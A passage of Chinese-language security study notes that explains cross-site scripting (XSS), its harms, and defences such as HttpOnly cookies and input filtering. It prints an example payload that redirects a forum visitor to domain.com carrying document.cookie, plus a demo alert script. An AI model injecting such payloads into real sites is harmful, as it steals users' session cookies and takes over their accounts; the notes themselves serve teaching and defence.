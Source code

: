 # 攻击技术

## 跨站脚本攻击

- 概念

  跨站脚本攻击（Cross-Site Scripting, XSS），可以将代码注入到用户浏览的网页上，这种代码包括 HTML 和 JavaScript。

- 攻击原理

  例如有一个论坛网站，攻击者可以在上面发布以下内容：

```html
<script>location.href="//domain.com/?c=" + document.cookie</script>
```

​	之后该内容可能会被渲染成以下形式：

```html
<p><script>location.href="//domain.com/?c=" + document.cookie</script></p>
```

​	另一个用户浏览了含有这个内容的页面将会跳转到 domain.com 并携带了当前作用域的 Cookie。如果这个论坛网站通过 Cookie 管理	用户登录状态，那么攻击者就可以通过这个 Cookie 登录被攻击者的账号了。

- 危害
  - 窃取用户的 Cookie
  - 伪造虚假的输入表单骗取个人信息
  - 显示伪造的文章或者图片

- 防范手段
  - 设置 Cookie 为 HttpOnly

    设置了 HttpOnly 的 Cookie 可以防止 JavaScript 脚本调用，就无法通过 document.cookie 获取用户 Cookie 信息。

- 过滤特殊字符

  例如将 `<` 转义为 `&lt;`，将 `>` 转义为 `&gt;`，从而避免 HTML 和 Jascript 代码的运行。

  富文本编辑器允许用户输入 HTML 代码，就不能简单地将 `<` 等字符进行过滤了，极大地提高了 XSS 攻击的可能性。

  富文本编辑器通常采用 XSS filter 来防范 XSS 攻击，通过定义一些标签白名单或者黑名单，从而不允许有攻击性的 HTML 代码的输入。

  以下例子中，form 和 script 等标签都被转义，而 h 和 p 等标签将会保留。

```html
<h1 id="title">XSS Demo</h1>

<p>123</p>

<form>
  <input type="text" name="q" value="test">
</form>

<pre>hello</pre>

<script type="text/javascript">
alert(/xss/);
</script>
```
